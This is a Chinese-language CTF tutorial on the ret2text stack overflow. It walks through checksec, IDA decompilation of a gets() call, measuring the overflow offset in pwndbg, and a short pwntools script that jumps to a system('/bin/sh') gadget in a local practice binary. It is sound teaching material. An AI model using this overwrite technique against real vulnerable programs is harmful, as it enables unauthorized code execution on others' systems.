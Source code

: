 ```yaml
---
create: 2024-02-08 12:08:10+00:00
title: Pwn 栈溢出
locked: false
labels:
  - ctf
---
```


## 栈溢出题目

### ret2text

[下载地址](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)  
拿到程序首先使用 checksec 检查这个程序的一些信息，运行 `checksec ret2text` 我们会得到如下信息：

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出这个程序是 32 位程序，仅开了栈不可执行保护

接着使用 32 位 IDA Pro 打开程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```

可以看到 `gets` 函数绝对会导致栈溢出的问题，接着我们查看一下这个程序里面的字符串，使用 `Shift + F12` 即可进入 String 窗口，在
Strings 窗口我们能看到：

`.rodata:08048763	00000008	C	/bin/sh`

这样一条数据，双击，看到这个字段前面的标识符为 `command`，用 `Alt + T` 搜索得到 `secure` 这个函数中包含 `/bin/sh`
，双击查看这个字符位置：

`.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"`

可以看到其位置为 0804863A，我们在栈溢出的时候返回这个位置就行

接着用 pwndbg 来运行这个程序

`gdb ret2text`

在调试界面先为 main 函数打上断点：`b main`，接着使用 `r` 命令来执行程序，程序会在 main 函数的位置停止，接着我们使用 `n`
一步步往下执行，直到我们可以输入，随便输入数据，用 stack 40 来查看栈内存放的数据：

```bash
00:0000│ esp 0xffffd370 —▸ 0xffffd38c ◂— 'AAAA'
01:0004│-084 0xffffd374 ◂— 0x0
02:0008│-080 0xffffd378 ◂— 0x1
03:000c│-07c 0xffffd37c ◂— 0x0
04:0010│-078 0xffffd380 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
05:0014│-074 0xffffd384 ◂— 0xffffffff
06:0018│-070 0xffffd388 —▸ 0x8048034 ◂— push es
07:001c│ eax 0xffffd38c ◂— 'AAAA'
08:0020│-068 0xffffd390 —▸ 0xf7ffd600 (_rtld_global+1504) ◂— 0x3
09:0024│-064 0xffffd394 ◂— 0x20 /* ' ' */
0a:0028│-060 0xffffd398 ◂— 0x0
0b:002c│-05c 0xffffd39c —▸ 0xffffd554 ◂— 0x20 /* ' ' */
0c:0030│-058 0xffffd3a0 ◂— 0x0
0d:0034│-054 0xffffd3a4 ◂— 0x0
0e:0038│-050 0xffffd3a8 ◂— 0x1000000
0f:003c│-04c 0xffffd3ac ◂— 9 /* '\t' */
10:0040│-048 0xffffd3b0 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
11:0044│-044 0xffffd3b4 ◂— 0x0
12:0048│-040 0xffffd3b8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
13:004c│-03c 0xffffd3bc —▸ 0xf7e2a054 (_dl_audit_preinit@got.plt) —▸ 0xf7fdde10 (_dl_audit_preinit) ◂— endbr32
14:0050│-038 0xffffd3c0 —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
15:0054│-034 0xffffd3c4 —▸ 0xf7fd6f90 (_dl_fixup+240) ◂— mov edi, eax
16:0058│-030 0xffffd3c8 —▸ 0xf7c184be ◂— '_dl_audit_preinit'
17:005c│-02c 0xffffd3cc —▸ 0xf7fbe4a0 —▸ 0xf7c00000 ◂— 0x464c457f
18:0060│-028 0xffffd3d0 —▸ 0xffffd410 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
19:0064│-024 0xffffd3d4 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
1a:0068│-020 0xffffd3d8 —▸ 0xf7fbeb10 —▸ 0xf7c1acc6 ◂— 'GLIBC_PRIVATE'
1b:006c│-01c 0xffffd3dc ◂— 0x1
1c:0070│-018 0xffffd3e0 ◂— 0x1
1d:0074│-014 0xffffd3e4 ◂— 0x0
1e:0078│-010 0xffffd3e8 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
1f:007c│-00c 0xffffd3ec —▸ 0xf7d20f9b (__init_misc+43) ◂— add esp, 0x10
20:0080│-008 0xffffd3f0 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
21:0084│-004 0xffffd3f4 ◂— 0x70 /* 'p' */
22:0088│ ebp 0xffffd3f8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
23:008c│+004 0xffffd3fc —▸ 0xf7c21519 (__libc_start_call_main+121) ◂— add esp, 0x10
24:0090│+008 0xffffd400 ◂— 0x1
25:0094│+00c 0xffffd404 —▸ 0xffffd4b4 —▸ 0xffffd627 ◂— '/home/ttdly/pwn/ret2text/ret2text'
26:0098│+010 0xffffd408 —▸ 0xffffd4bc —▸ 0xffffd649 ◂— 'SHELL=/bin/bash'
27:009c│+014 0xffffd40c —▸ 0xffffd420 —▸ 0xf7e2a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
```

可以看到我们输入的字符存放在 `0xffffd38c` 这个地址，而 ebp 在 `0xffffd3f8` 的位置，这时我们需要向栈内填充
`0x3f8 - 0x38c = 0x6c` 个字符，如果想要覆盖调用 main 函数地址位置，我们还需要额外填充 4 个字节，所以最终向栈内写入的字符数为
`0x6c+4`

大概流程我们已经知道了，接着我们来编写攻击脚本：

```python
from pwn import *

local = process("./ret2text");
target = 0x0804863A # system("/bin/sh") 的位置
payload = b"A" * (0x6c + 4) + p32(target);
local.send(payload);
local.interactive();
```

使用 python 运行这个脚本之后，我们可以看到终端已经进入了本机的 shell 界面，攻击成功。这个时候我们可以通过 shell 来得到我们的
flag。
